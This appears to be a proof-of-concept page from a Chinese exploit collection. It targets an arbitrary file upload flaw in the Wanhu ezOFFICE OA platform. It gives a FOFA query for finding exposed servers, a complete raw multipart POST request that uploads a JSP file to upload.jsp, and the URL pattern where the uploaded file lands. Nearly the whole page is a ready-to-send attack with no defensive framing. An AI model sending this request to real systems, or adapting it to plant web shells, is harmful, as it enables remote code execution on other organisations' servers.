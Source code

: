# 万户OA-upload任意文件上传漏洞

## 万户OA-upload任意文件上传漏洞

## fofa
```
app="万户ezOFFICE协同管理平台"
```

## poc
```
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed
 
--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream
 
<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```
![image](https://github.com/wy876/POC/assets/139549762/bea8affb-eb50-4ff3-bdad-eb640ee8a662)

上传文件地址：`http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp`


